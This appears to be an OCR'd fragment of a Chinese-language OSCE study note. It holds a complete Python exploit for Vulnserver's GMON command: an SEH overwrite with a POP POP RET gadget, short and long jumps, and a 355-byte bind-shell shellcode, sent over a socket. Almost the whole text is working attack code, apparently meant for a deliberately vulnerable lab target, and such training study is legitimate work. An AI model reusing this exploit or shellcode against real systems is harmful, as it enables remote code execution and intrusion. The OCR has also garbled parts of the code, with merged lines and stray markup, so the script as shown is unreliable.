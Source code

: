 二进制复制(选择→右键→二进制→二进制复制)

## 最终漏洞脚本

```
**### Final** [**jmpback_gmon.py**](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/jmpback_gmon.py)import socket
import struct
import os
import systarget_command = "GMON /"
offset = 3522
eip = struct.pack("<I", 0x6250172b)             **# POP POP RET**
short_jmp = "\xEB\x09\x90\x90"                  **# Short JMP**
jmp_back = "\x54\x58\x66\x05\x55\x06\xFF\xE0"   **# Long JMP****# Bind Shell (355 Bytes)**
buf =  ""
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"payload = ""
payload += target_command
payload += "A" * 100
payload += "\x90" * 200
payload += buf
payload += "\x90" * (offset - 300 - len(buf) - len(short_jmp))
payload += short_jmp
payload += eip
payload += "\x90" * 5
payload += jmp_back
payload += "C" * (4103 - offset - len(eip) - 5 - len(jmp_back))print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)
s.close()
```
